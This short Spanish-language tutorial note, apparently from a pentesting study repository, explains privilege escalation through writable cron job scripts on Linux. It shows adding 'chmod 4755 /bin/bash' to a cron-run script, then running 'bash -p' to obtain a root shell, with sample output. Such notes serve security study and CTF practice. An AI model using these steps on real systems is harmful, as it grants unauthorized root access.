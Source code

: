 # Detección de tareas cron

- Usaremos un script en bash
Como concepto clave necesitas verificar siempre que los archivos de las tareas cron tengan los permisos apropiados ya que nos podemos aprovechar de esos archivos para volvernos root

* Luego de cambiar el archivo file.sh o el archivo que se este ejutando en las tareas cron
```bash
  [archivo file.sh editado]
  chmod 4755 /bin/bash
```

* Luego podemos lanzar una terminal ya como root
```bash
  [pepito@user Desktop]$ watch -n 1 ls -l /bin/bash
  [pepito@user Desktop]$ bash -p
  bash-5.1# whoami
  root
  bash-5.1#
```
